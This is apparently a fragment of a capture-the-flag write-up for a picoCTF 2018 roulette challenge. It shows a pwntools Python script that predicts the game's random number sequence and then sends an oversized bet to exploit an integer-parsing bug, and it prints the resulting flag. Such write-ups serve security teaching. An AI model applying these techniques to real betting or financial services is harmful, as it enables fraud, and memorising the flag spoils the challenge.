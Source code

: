 And this is the "exploit":
```python
#!/usr/bin/env python

from pwn import *
import subprocess


r = remote('2018shell1.picoctf.com', 21444)

sleep(1)
lines = r.recvuntil('> ').split('\n')
print '\n'.join(lines)

balance = int(lines[1].split()[2][1:])

log.info("Start balance: {}".format(balance))

log.info("Predicting random values")
values = subprocess.check_output(["./get_rand_seq", str(balance)])
values = values.split(',')
values = [int(v, 10) for v in values[:-1]]

i = 0

ROULETTE_SIZE = 36

for _ in range(4):
   spin = (values[i] % ROULETTE_SIZE) + 1
   i += 2

   log.info("Putting {}$ on {}".format(balance, spin))

   r.sendline("{}".format(balance))
   r.sendline("{}".format(spin))

   balance *= 2

   print r.recvuntil('> ')

   print r.recv()

spin = (values[i] % ROULETTE_SIZE) + 1
i += 2

log.info("Putting {}$ on {}".format(11474836400, spin))

r.sendline("{}".format(11474836400)) # Put some negative numbers, bug in get_long
r.sendline("{}".format((spin + 1) % 36))

print r.recvuntil('You deserve this flag!')
print r.recvall()

r.close()
```

Cute!

Flag: picoCTF{1_h0p3_y0u_f0uNd_b0tH_bUg5_e9328e04}